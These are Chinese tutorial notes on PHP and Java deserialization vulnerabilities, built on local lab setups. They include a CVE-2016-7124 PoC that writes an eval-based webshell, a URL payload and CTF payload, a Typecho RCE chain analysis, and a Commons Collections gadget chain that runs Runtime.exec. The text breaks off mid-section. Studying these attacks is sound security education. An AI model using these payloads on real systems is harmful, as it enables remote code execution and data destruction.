# 反序列化渗透与防御

## php magic函数

	

	

要运行这个php代码，得把basic文件夹代码复制到phpstudy的www目录下，然后创建网站才可以从网页看到执行结果。

创建和删除对象都会自动调用magic函数。

```php
<?php

/**
 * Class MyClass
 * Magic函数演示
 */
class MyClass
{
    public $var = "hello wuya\n";

    public function echoString(){
        echo $this->var;
    }

    public function __construct(){
        echo "__construct\n";
    }

    public function __destruct(){
        echo "__destruct\n";
    }

    public function __toString(){
        return "__toString\n";
    }
}

// 创建一个新的对象，__construct被调用
$obj = new MyClass();
// 调用该类的方法
$obj->echoString();
// 以字符形式输出，__toString方法被调用
echo $obj;
// php脚本要结束时，__destruct会被调用
```

运行结果如下

	

## php序列化和反序列化

序列化:把一个对象转化为一段字符串

反序列化:把字符串转化回对象

	

序列化的作用

	

把不同序列化成字符串的例子

```php
<?php

/**
 * Class SerialType
 * 不同类型的序列化演示
 */
class SerialType{

    public $data;
    private $pass;
    const CONTRY = 'CHINA';

    public function __construct($data, $pass)
    {
        $this->data = $data;
        $this->pass = $pass;
    }
}
$number = 32;
$str = 'wuyayy';
$bool = false;
$null = NULL;
$arr = array('aa' => 1, 'bbbb' => 9);
$obj = new SerialType('somestr', true);

var_dump(serialize($number)); //打印序列化后的类型和具体的值。
var_dump(serialize($str));
var_dump(serialize($bool));
var_dump(serialize($null));
var_dump(serialize($arr));
var_dump(serialize($obj));
```

由于网页运行结果比较杂乱，这里整理运行结果如下

```php
string(5) "i:32;" //i是整型
string(13) "s:6:"wuyayy";" //s是指string类型
string(4) "b:0;" string(2) "N;" //b指是布尔类型
string(34) "a:2:{s:2:"aa";i:1;s:4:"bbbb";i:9;}" //a指数组类型
//o指对象类型,10指对象类型字符的长度
string(75) "O:10:"SerialType":2:{s:4:"data";s:7:"somestr";s:16:"SerialTypepass";b:1;}"
```

当然也支持序列化成其他的格式

		

把对象序列化成json字符串和xml字符串的例子。

```php
<?php

/**
 * Class JsonClass
 * JSON和XML序列化演示
 */
class JsonClass
{
    public $word = "hello wuya";

    public $prop = array('name' => 'wuya', 'age' => 31, 'motto' => 'Apple keep doctor');
}
$obj = new JsonClass();
// 转换对象为JSON字符串
$s = json_encode($obj);
// 转换对象为XML
$x = wddx_serialize_value($obj );
echo $s;
echo "\n";
echo $x;
```

把网站的运行结果进行整理如下，由于xml在网页端查看不出来，所以无法根据结果进行xml格式化显示。

```
//序列化为json字符串的结果。
{"word":"hello wuya","prop":{"name":"wuya","age":31,"motto":"Apple keep doctor"}}
```

有的对象可能具有敏感的私有属性不能被序列化，那么可以筛选出不能序列化的部分，比如下面例子中的password属性

```php
<?php
/**
 * Class User
 * 演示序列化中不需要序列化的字段
 */
class User{
    const SITE = 'wuya';

    public $username;
    public $nickname;
    private $password;

    public function __construct($username, $nickname, $password)
    {
        $this->username = $username;
        $this->nickname = $nickname;
        $this->password = $password;
    }

    // 重载序列化调用的方法
    //该方法在序列化之前会调用。
    public function __sleep()
    {
        // 返回需要序列化的变量名，过滤掉password变量
        return array('username', 'nickname');
    }
}
$user = new User('hackerwuya', 'wuya', '123456');
var_dump(serialize($user));

```

运行结果如下，可以发现password私有属性没有被序列化

```
string(74) "O:4:"User":2:{s:8:"username";s:10:"hackerwuya";s:8:"nickname";s:4:"wuya";}"
```

反序列化的例子,首先先创建一个对象，然后序列化。	

```php
<?php

/**
 * Class UnSerializeTest
 * 反序列化演示
 */
class UnSerializeTest
{
  public $var = "hello wuya..";
  public function echoString(){
      echo $this->var;
  }
}

// 创建一个新的类
$obj1 = new UnSerializeTest();
// 调用该类的
$obj1->echoString();

// 输出序列化以后的字符
//echo "序列化以后的结果：\n";
echo serialize($obj1);
```

运行结果入下图所示

```php
hello wuya..
O:15:"UnSerializeTest":1:{s:3:"var";s:12:"hello wuya..";}
```

通过序列化的内容进行反序列化成一个对象obj2。可以执行反序列化对象的方法。

==注意:也可对序列化的内容进行修改，来获得修改后反序列化的对象内容。==

```php
<?php

/**
 * Class UnSerializeTest
 * 反序列化演示
 */
class UnSerializeTest
{
  public $var = "hello wuya..";
  public function echoString(){
      echo $this->var;
  }
}

// 创建一个新的类
//$obj1 = new UnSerializeTest();
// 调用该类的
//$obj1->echoString();

// 输出序列化以后的字符
//echo "序列化以后的结果：\n";
//echo serialize($obj1);


// 反序列化
// “O”表示对象，“15”表示对象名长度为15，“UnSerializeTest”为对象名，“1”表示有1个参数。
// “{}”里面是参数的key和value，“s”表示string对象，“11”表示长度，“var”则为key
// !注意，var内容和长度可以修改
$obj2 = unserialize('O:15:"UnSerializeTest":1:{s:3:"var";s:12:"hello wuya..";}');

// 调用对象方法
//echo "反序列化以后执行的结果：\n";
var_dump($obj2);
$obj2->echoString();
```

	

```
php有两个magic函数,__unserialize()和 __sleep()函数，当执行反序列化函数后会触发，但如果是php7.4.0版本之前都是优先执行__sleep()函数，7.4.0版本以及之后都是优先执行__unserialize()函数
```

比如php版本7.4.0之前执行该段代码

```php
<?php

/**
 * Class UnSerializeTest
 * 反序列化演示
 */
class UnSerializeTest
{
  public $var = "hello wuya..";
  public function echoString(){
      echo $this->var;
  }

    public function __unserialize(){ //两个magic函数
        echo "__unserialize\n";
    }

    public function __wakeup(){
        echo "__wakeup\n";
    }
}

// 创建一个新的类
//$obj1 = new UnSerializeTest();
// 调用该类的
//$obj1->echoString();

// 输出序列化以后的字符
//echo "序列化以后的结果：\n";
//echo serialize($obj1);


// 反序列化
// “O”表示对象，“15”表示对象名长度为15，“UnSerializeTest”为对象名，“1”表示有1个参数。
// “{}”里面是参数的key和value，“s”表示string对象，“11”表示长度，“var”则为key
// !注意，var内容和长度可以修改
$obj2 = unserialize('O:15:"UnSerializeTest":1:{s:3:"var";s:12:"hello wuya..";}');

// 调用对象方法
//echo "反序列化以后执行的结果：\n";
var_dump($obj2);
//$obj2->echoString();
```

运行结果可以发现是优先调用wakeup的函数。

	

修改成7.4.0以后的php版本。

	

## 反序列化漏洞的出现

	

常见的写数据或者执行命令的相关函数

	

将马士兵提供的base目录下的代码放入phpstudy的网站根目录下，然后创建网站。

```
	logfile.php文件定义了一个类，用于创建存放报错信息的临时文件，最后删除这个对象，调用析构函数删除这个临时文件。
	dirname函数:返回去除文件名后的目录路径
	__FILE__是一个魔术常量（也称为系统预定义常量），它的主要作用是获取并返回当前执行PHP脚本的完整路径和文件名，即绝对路径（包含文件名）
```

	

```
	request.php文件用param参数进行传参，可以传入序列化字符串的对象参数。当该脚本执行结束，usr变量的对象将会析构掉，那么会执行删除文件的操作。
```

	

```
	poc.php文件中，首先创建logfile对象，修改filename属性为index.php，获取序列化结果的字符串，那么在request.php文件传参，则可以删除index.php文件，这里就出现了漏洞，可以指定文件名，来删除网站目录下的所有文件。
```


比如创建了index.php文件。

	

首先先获取删除index.php文件对象的序列化结果。

	

复制序列化结果用于传参来删除index.php文件。

	

除了删除文件，还可以利用反序列化漏洞获取文件内容。

	

生成一个readfile对象，把文件名属性改成要读取的文件。获得序列化字符串结果

	

	

通过param传参序列化结果，readfile.php文件中反序列化成对象后会输出这个对象，自然会调用tostring函数。

	

## ctf题目分析

### CVE-2016-7124

CVE-2016-7124漏洞源于PHP在反序列化过程中未能正确处理序列化字符串中表示对象属性个数的值。在正常情况下，如果类中存在`__wakeup()`方法，当使用`unserialize()`函数反序列化对象时，会首先调用该`__wakeup()`方法。然而，当序列化字符串中指定的对象属性个数大于实际对象属性个数时，PHP会跳过`__wakeup()`方法的执行，这可能导致安全漏洞。

存在该cve漏洞的php版本，PHP 5.x系列：小于5.6.25的版本，PHP 7.x系列：小于7.0.10的版本

接下来演示该cve漏洞，环境需求:把提供的cve目录放置phpstudy根目录，并创建网站。

分析cve7124.php源码

```php
<?php
// 目标：反序列化的时候绕过__wakeup以达到写文件的操作
// CVE-2016-7124
// PHP5小于5.6.25或PHP7小于7.0.10
class Test
{
    // 私有成员变量
    private $poc = '';
    public function __construct($poc)//构造对象时可以给私有属性赋值。
    {
        $this->poc = $poc;
    }

    function __destruct() //若销毁对象时发现私有属性不为空，则创建一句话木马文件。
    {
        if ($this->poc != '')
        {
            file_put_contents('shell.php', '<?php eval($_POST["shell"]);?>');
           die('Success!!!');
       }
        else
        {
            die('fail to getshell!!!');
        }
    }

    function __wakeup() //反序列化后调用该函数
    {
        // 返回由对象属性组成的关联数组，把所有的属性置空
        foreach(get_object_vars($this) as $k => $v)
        {
            $this->$k = null;
        }
        echo "waking up...n";
    }
}
$poc = $_GET['poc']; //通过poc参数来传递序列化字符。
/*if(!isset($poc))
{
    show_source(__FILE__);
    die();
}*/
print_r("your payload:".$poc);
$a = unserialize($poc);
// PHP5小于5.6.25或PHP7小于7.0.10
```

分析poc.php文件源码

```php
<?php
// PHP5小于5.6.25或PHP7小于7.0.10
class Test
{
    private $poc = '';
    public function __construct($poc)
    {
        $this->poc = $poc;
    }
    function __destruct()
    {
        if ($this->poc != '')
        {
            file_put_contents('shell.php', '<?php eval($_POST["shell"]);?>');
                die('Success!!!');
            }
        else
        {
            die('fail to getshell!!!');
        }
    }
    function __wakeup()
    {
        foreach(get_object_vars($this) as $k => $v)
        {
            $this->$k = null;
        }
        echo "waking up...n";
    }
}
$a = new Test('shell'); //生成这个test对象，并给私有属性赋值。
$poc = serialize($a); //把该对象序列化并输出序列化字符。
print($poc); 
// PHP5小于5.6.25或PHP7小于7.0.10
// 1改为大于1的数字
// 注意：将Testpoc改为%00Test%00poc，因为对象的私有属性会被加上类名+属性名的拼接。所以需要使用%00包裹这个Test
// O:4:"Test":2:{s:9:"%00Test%00poc";s:5:"shell";}
```

访问这个payload

```
payload:
http://localhost/cve/cve7124.php?poc=O:4:%22Test%22:2:{s:9:%22%00Test%00poc%22;s:5:%22shell%22;}

属性名中的 %00：
%00 是 URL 编码中 NULL 字符的表示。它通常用于绕过对属性名的限制。
在PHP中，私有属性（private properties）的名称会被自动加上类名的前缀，并且前缀与属性名之间用 NULL 字符分隔，例如："\x00ClassName\x00propertyName"。因此，%00Test%00poc 这个字符串在解码后实际变成了 \x00Test\x00poc。
这个属性名结构通常用于伪造对象的私有属性。在正常情况下，外部代码无法直接访问私有属性，但通过反序列化时使用这种特殊格式，可以强行设置类的私有属性值。

```

	

产生了一句话木马文件。

	

### ctf题目

攻防世界的反序列化靶场。

	

分析源码可知当反序列化之后执行wakeup函数就会停止执行。所以需要绕过wakeup函数，则可以利用前面的cve漏洞

	

先序列化得到结果，然后调整序列化中的数量大于对象属性个数，来绕过wakeup函数。

```php
payload:
O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

	

获取答案提交即可通关。

	

## typecho反序列化漏洞

从资料中把该目录移动到phpstudy根目录，并创建网站。

	

在navicat新建数据库。

	

开始安装。

	

管理员密码设置为123456


部署typecho博客成功。	

	

由于要找反序列化漏洞，分析源码中包含unserialize函数。点击进入ctrl查看get函数

	

```
这里的get函数的意思就是获取cookie或者post里面的$key参数的值，并赋值给$value，并且$value不能是数组，否则会被置空，说明这里的确没有对反序列化后的内容进行校验
所以说根据源代码，我们需要根据__typecho_config来进行post传参。
```

	

继续分析install.php文件，发现必须使得finish参数有参数传递才可以触发后续的序列化操作。

	

当finish有参数后，会进入源码中的三个分支，其中else分支才是执行反序列化操作。可以看出，要想进入我们需要的else判断里面，我们首先要使得我们的传参或者cookie里有__typecho_config这个参数并且也包含config.inc.php这个文件，才能进入我们所需要的反序列化里面。

在else分支，继续审计看是否有magic函数可以利用，反序列化后的config变量，又被拿来new了一个Typecho_db对象，进一步审计这个Typecho_db类。

	

发现在构造函数中$adapertName这个变量的前面加上一些字符串，那么如果说，$adapterName是一个对象呢？意思是不是就是将对象转化为了一个字符串呢?如果满足这种情况，我们是不是就可以去利用__tostring()这个魔术方法去写最后的payload呢。

	

```
经过一系列的代码审计，终于找到一个可以利用的点，在typecho_feed类的tostring方法中，有访问其他对象的screenName属性，那么我们可以想到一种魔术方法：__get(),这个魔术方法是当对象中调用不存在的属性时候会自动去调用这个魔术方法，那么我们需要去找到一个既有__get()魔术方法的又没有screenName这个属性的对象，继续在代码审计工具里面找__get()
```

	

于是经过查找发现typecho_request类不仅没有screenname属性，而且也有设置__get函数，进一步审计里面get函数

	

进一步查看_applyFilter函数是干嘛的

	

```
看到这两个函数，我们应该能够想到一个漏洞----->RCE漏洞，这两个函数就是RCE漏洞的危险函数，使用不当就会造成RCE漏洞，例如:array_map("eval","array(phpinfo())"),所以，我们可以将$filter赋值eval，将$value赋值，对于array_map函数第一个参数可以看作函数入口，第二个参数可以看作第一个参数函数入口的参数。而call_user_func函数也是同理，只不过是适用于非数组的元素。所以根据这个三目运算符根据value属性是否为数组来调用不同函数。
```

	

于是在生成poc中，写入我们要执行的命令，比如phpinfo(),运行这个文件获得序列化的字符。

	

	

```
根据之前的代码分析，必须确保finish有参数才能进入反序列化分支，所以随便输入一个1，然后把序列化字符用__typecho__config参数传递即可。
```

	

## Java序列化和反序列化

	

	

	

	

java序列化的函数

	

并且注意，如果一个类需要序列化，必须实现serializable接口。

	

在idea中打开提供的源码包serialize-vul，打开此项目。

	

由于要对person类进行序列化，先查看person文件的内容。

这段代码定义了一个名为 `Person` 的 Java 类，并且实现了 `Serializable` 接口，使得 `Person` 类的对象可以被序列化。

```java
package com.wuya;

import java.io.*;

public class Person implements Serializable {
    public String name;
    public int age;

    public Person(String s, int i) {
        this.name = s;
        this.age = i;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }

}
```

### json字符串反序列化

查看testjson这个java文件。

`test1()` 方法的目的是将一个 `Person` 对象转换为 JSON 格式并输出 JSON 对象中的内容。

`test2()` 方法展示了如何将一个 JSON 字符串解析为 `JSONObject` 和 Java 对象，并从中获取属性值。

```java
package com.wuya.fast;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.wuya.Person;

public class TestJson {
    public static void main(String[] args) {
        test1(); //执行这两个函数。
        test2();

    }

    public static void test1(){ 
        Person person = new Person("fast",999);
        JSONObject json = (JSONObject) JSON.toJSON(person);
        System.out.println(json);
        System.out.println(json.get("name"));
        System.out.println(json.get("age"));
    }

    public static void test2(){
        String s ="{\"name\":\"fast\",\"age\":999}";
        JSONObject json1 = JSON.parseObject(s);
        System.out.println(json1);

        Person real = JSON.parseObject(s, Person.class);
        System.out.println(real);
        System.out.println(real.name);
        System.out.println(real.age);
    }

}

```

具体运行结果如下

	

### 读写文件反序列化

查看TestToFile文件

```
这段代码的主要目的是演示如何将一个 Person 对象序列化并保存到文件中，以及如何从文件中反序列化并恢复该对象。具体过程如下：

序列化：将 Person 对象转换为字节流并保存到文件中。
反序列化：从文件中读取字节流并转换回 Person 对象。
序列化的文件可以在不同的程序运行之间保存对象的状态，而反序列化则用于恢复这些对象。
```

```java
package com.wuya;

import java.io.*;

public class TestToFile {

    public static void main(String[] args) throws IOException, ClassNotFoundException {
        Person obj= new Person("wuya", 666);
        String filePath = "D:/wuya.xxx";

        // 序列化
        ObjectOutputStream  outStream = new ObjectOutputStream(new FileOutputStream(filePath));
        outStream.writeObject(obj);

        // 反序列化
        ObjectInputStream  inStream = new ObjectInputStream(new FileInputStream(filePath));
        // readObject 方法
        Person readObject = (Person)inStream.readObject();
        System.out.println("反序列化后：name="+readObject.name +",age="+readObject.age);
    }

}

```

运行结果

	

	

利用思路

	

在java工程有如下两个类重写了readObject方法。

	

为了说明readObject重写方法所产生的漏洞，这里进行一个简单的演示。

查看unsafeClass.java文件

```java
package com.wuya;

import java.io.IOException;
import java.io.Serializable;

public class UnsafeClass implements Serializable {
    public String name;

    //重写readObject()方法，使得反序列化该类，可以执行额外的操作。 
    private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException {
        //执行默认的readObject()方法
        in.defaultReadObject();
        //额外执行的命令，运行计算器。
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

查看UnsafeClass文件

```java
package com.wuya;

import java.io.*;

public class UnsafeTest {
    public static void main(String args[]) throws Exception {
        UnsafeClass Unsafe = new UnsafeClass();
        Unsafe.name = "hacked by wuya";
        // 序列化
        FileOutputStream fos = new FileOutputStream("D:/wuya.yyy");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        os.writeObject(Unsafe);
        os.close();

        // 反序列化
        FileInputStream fis = new FileInputStream("D:/wuya.yyy");
        ObjectInputStream ois = new ObjectInputStream(fis);
        //反序列化的过程中，会反射调用unsafeClass类自定义的readObject方法。
        UnsafeClass objectFromDisk = (UnsafeClass) ois.readObject();
        
        System.out.println(objectFromDisk.name);
        ois.close();
    }
}

```

运行结果,可以发现计算器被打开了。

	

## Apache Commons Collection反序列化漏洞

	

复现该反序列化漏洞所需的环境

	

为了保证实验顺利实现成功，先设置java编译版本为java7


下载jdk1.7,然后添加sdk

	

添加后选中jdk1.7

	

确保依赖也是用jdk1.7


在菜单中打开setting,确保编译器使用7版本。

	

确保commons-collection版本小于3.2.1

	

漏洞存在的两个问题。

	

	

### 反射例子

java反射的作用,可以动态地根据代码的执行创建不同的类，而非代码写死创建某个类。

	

```
以下代码是反射的例子:
test1方法是直接使用Runtime类调用getRuntime函数返回对象，然后执行exec函数来打开计算器

test2()方法展示了通过反射机制来动态调用 Runtime 类中的方法：
通过 Class.forName("java.lang.Runtime") 动态加载 Runtime 类并获取其 Class 对象。
使用反射机制获取 Runtime 类中的 getRuntime() 方法，并通过 invoke() 方法调用该方法，返回 Runtime 类的实例对象rt。使用反射再次调用 Runtime 对象的 exec() 方法，并传入参数 "calc" 来启动计算器。

```

```java
package com.wuya;

import java.io.*;

public class Reflect {
    public static void main(String[] args) throws IOException {
        test2();

    }

    public static void test1() throws IOException {
        Runtime.getRuntime().exec("calc");
    }

    public static void test2(){
        try {
            //初始化Runtime类
            Class clazz = Class.forName("java.lang.Runtime");
            // 调用Runtime类中的getRuntime方法得到Runtime类的对象
            Object rt = clazz.getMethod("getRuntime").invoke(clazz);
            //再次使用invoke调用Runtime类中的方法时，传递我们获得的对象，这样就可以调用
            clazz.getMethod("exec",String.class).invoke(rt,"calc");
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```

	

理解该漏洞所要了解的关键类

	

这是调用链路，接下来根据调用链路分析代码找到反序列化漏洞。

	

通过ctrl+N寻找InvokerTransformer类的源码

该类的构造函数由三个参数组成，分别对应方法名称，方法的参数类型以及方法的参数。

	

而该类的transform方法需要传入一个对象参数，通过传入一个对象参数，然后通过之前构造函数提供的方法和参数让这个对象去执行。最后依据执行的method方法的返回值类型进行return.

	

为了解释这段代码的含义，可以用下列代码样例运行理解，运行下面这段代码，会启动计算器。

```java
package com.wuya.apache;

import org.apache.commons.collections.functors.InvokerTransformer;

/**
 * InvokerTransformer反射触发
 */
public class TransTest1 {
    public static void main(String[] args)  {
        // 创建实例 传入构造方法参数 （函数名 参数类型 参数值）
        InvokerTransformer invokerTransformer = new InvokerTransformer(
                "exec",
                new Class[]{String.class},
                new String[]{"Calc.exe"}
        );

        try {
            // 通过反射机制依次获得Runtime类 getRuntime构造方法 最后生成Runtime实例
            // Object input = Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));
            Object input = Runtime.getRuntime(); //获取Runtime对象赋值给input
                    // 执行transform函数
            invokerTransformer.transform(input); //让input对象去打开计算器。
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```

但是上面的样例代码是自己手动调用transform方法才去打开计算器的，那么怎么在反序列化的过程中自动调用这个transform方法呢?

分析chainedTransformer类,构造该类的对象需要传入Transformer对象数组。

	

该类的transform方法，会把Transformer数组的所有对象元素都执行transform函数。

注意:每次执行transform方法可能会使得object发生变化。

	

分析ConstantTransformer类发现构造函数传入的对象，一直到该类执行transform函数返回的对象是一样的。

	

通过下面的样例代码理解上述代码的含义。

```java
package com.wuya.apache;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

/**
 * ChainedTransformer遍历触发
 *
 *   等同于 ((Runtime)Runtime.class.getMethod("getRuntime",null).invoke(null,null)).exec("calc.exe");
 *
 */
public class TransTest2 {
    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[]{
                // 获得Runtime类对象
                new ConstantTransformer(Runtime.class),
                // 传入Runtime类对象 反射执行getMethod获得getRuntime方法
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                    	//getMethod函数中第二个参数指getRuntime函数的参数类型。
                    	//其中参数new class[0]指getRuntime方法没有携带任何参数。
                        new Object[]{"getRuntime",new Class[0]}
                ),
                // 传入getRuntime方法 反射执行invoke方法 得到Runtime实例
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class },
                        //之所以invoke不携带任何参数，原因在于getRuntime是静态方法，且无需携带任何参数
                        new Object[] {null, null }
                ),
                // 传入Runtime实例 执行exec方法
                new InvokerTransformer("exec",
                        new Class[] {String.class },
                        new Object[] {"Calc.exe"})
        };

        // ChainedTransformer
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(null);//虽然一开始传入是null，但是会在循环执行的过程中发生改变。
    }
}

```

接下来问题在于，如何使得chainedTransformer类的方法transform被自动调用呢?

分析TransformedMap类的构造方法，其中需要传入map和transformer对象。

	

